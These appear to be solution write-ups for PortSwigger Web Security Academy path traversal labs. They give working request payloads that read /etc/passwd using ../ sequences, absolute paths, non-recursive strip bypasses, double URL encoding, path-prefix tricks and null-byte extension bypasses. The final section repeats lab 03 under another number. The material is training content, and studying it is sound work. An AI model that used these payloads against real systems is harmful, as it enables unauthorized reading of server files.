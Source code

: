 01 File path traversal, simple case
===================================

This lab contains a file path traversal vulnerability in the display of product
images.

To solve the lab, retrieve the contents of the /etc/passwd file.

References:

-   https://portswigger.net/web-security/file-path-traversal

![img](media/139c9ce01b776b7f3a3fb141a9343df6.png)

To retrieve an image the application uses a GET request with the parameter
filename:

![img](media/0e22a24fd14be32a322e7c508df38d3f.png)

To retrieve /etc/passwd:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /image?filename=../../../etc/passwd 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/034152c8c3612bc1484e845075e707c9.png)

02 File path traversal, traversal sequences blocked with absolute path bypass
=============================================================================

This lab contains a file path traversal vulnerability in the display of product
images.

The application blocks traversal sequences but treats the supplied filename as
being relative to a default working directory.

To solve the lab, retrieve the contents of the /etc/passwd file.

References:

-   https://portswigger.net/web-security/file-path-traversal

![img](media/a63e483ea5fa3ff00f7180a843f12afc.png)

To retrieve an image the application uses a GET request with the parameter
filename:

![img](media/d466cd33a6727e27dc8e96b840650585.png)

To retrieve /etc/passwd:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /image?filename=/etc/passwd 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/76404ba656f250a26c74251d8c17fba6.png)

03 - File path traversal, traversal sequences stripped non-recursively
======================================================================

This lab contains a file path traversal vulnerability in the display of product
images.

The application strips path traversal sequences from the user-supplied filename
before using it.

To solve the lab, retrieve the contents of the /etc/passwd file.

References:

-   https://portswigger.net/kb/issues/00100300_file-path-traversal

-   https://portswigger.net/web-security/file-path-traversal

Generated link:
https://0a2a0030049b8f43822a9e64007d00ba.web-security-academy.net/

When accessing Home or a post we have GET requests like this one:

![img](media/e016b17a46336c966f2c9f7b9b9e9e0c.png)

![img](media/5f09778f180d5e78bffecfdfd0670cc9.png)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /image?filename=..././..././..././..././..././etc/passwd HTTP/2
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/bc4fa6c7417a7237cba40a7e8332326f.png)

04 File path traversal, traversal sequences stripped with superfluous URL-decode
================================================================================

This lab contains a file path traversal vulnerability in the display of product
images.

The application blocks input containing path traversal sequences. It then
performs a URL-decode of the input before using it.

To solve the lab, retrieve the contents of the /etc/passwd file.

References:

-   https://portswigger.net/web-security/file-path-traversal

![img](media/fdbd5d63445692f871f7fb41b1ed761b.png)

To retrieve an image the application uses a GET request with the parameter
filename:

![img](media/d5eb3f6fc68465fa443b33106ef5b31f.png)

To retrieve /etc/passwd we need to use double URL encode the characters:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /image?filename=%252e%252e%252f%252e%252e%252f%252e%252e%252fetc/passwd
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/b6afd583b7f280a9e95658fcd5d30c1c.png)

05 File path traversal, validation of start of path
===================================================

This lab contains a file path traversal vulnerability in the display of product
images.

The application transmits the full file path via a request parameter, and
validates that the supplied path starts with the expected folder.

To solve the lab, retrieve the contents of the /etc/passwd file.

References:

-   https://portswigger.net/web-security/file-path-traversal

![img](media/4f972850928c3ad8517867c1f973ef53.png)

To retrieve an image the application uses a GET request with the parameter
filename and the full path:

![img](media/a29b0d5cc8689101a10a54e5d12437d6.png)

To retrieve /etc/passwd we need the path to start with “/var/www/images/”:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /image?filename=/var/www/images/../../../etc/passwd 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/f215b9e860b3ce56a6c1450c6bfd950f.png)

06 File path traversal, validation of file extension with null byte bypass
==========================================================================

This lab contains a file path traversal vulnerability in the display of product
images.

The application validates that the supplied filename ends with the expected file
extension.

To solve the lab, retrieve the contents of the /etc/passwd file.

References:

-   https://portswigger.net/web-security/file-path-traversal

![img](media/5d677ac6ace62d023da27d5e05939149.png)

To retrieve an image the application uses a GET request with the parameter
filename:

![img](media/85b00c6e98b89b215f693f0b6d5bcdbb.png)

To retrieve /etc/passwd we need to use the null byte:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /image?filename=../../../etc/passwd%00.png
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/ad61e0bd38b3b706cb8576cd9779233a.png)


# 14 - File path traversal, traversal sequences stripped non-recursively

This lab contains a file path traversal vulnerability in the display of product images.

The application strips path traversal sequences from the user-supplied filename before using it.

To solve the lab, retrieve the contents of the /etc/passwd file.


---------------------------------------------

References:

- https://portswigger.net/kb/issues/00100300_file-path-traversal

- https://portswigger.net/web-security/file-path-traversal

- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal

---------------------------------------------

Generated link: https://0a2a0030049b8f43822a9e64007d00ba.web-security-academy.net/


When accessing Home or a post we have GET requests like this one:



![img](images/14%20-%20File%20path%20traversal,%20traversal%20sequences%20stripped%20non-recursively/1.png)




![img](images/14%20-%20File%20path%20traversal,%20traversal%20sequences%20stripped%20non-recursively/2.png)

```
GET /image?filename=..././..././..././..././..././etc/passwd HTTP/2
```



![img](images/14%20-%20File%20path%20traversal,%20traversal%20sequences%20stripped%20non-recursively/3.png)
